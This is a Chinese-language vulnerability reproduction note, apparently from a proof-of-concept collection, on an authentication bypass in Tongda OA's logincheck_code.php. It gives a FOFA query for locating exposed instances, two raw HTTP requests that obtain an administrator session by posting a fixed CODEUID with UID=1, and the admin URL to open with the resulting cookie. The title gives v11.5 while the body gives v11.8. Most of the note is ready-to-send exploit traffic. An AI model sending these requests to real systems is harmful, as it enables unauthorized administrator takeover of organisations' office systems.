



# 通达OA v11.5 logincheck_code.php 登陆绕过漏洞

## 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

## 漏洞影响

```
通达OA v11.8
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面



发送第一个请求包

```
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```



再发送第二个恶意请求

```
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```


获取cookie后访问管理员页面 `/general/index.php`

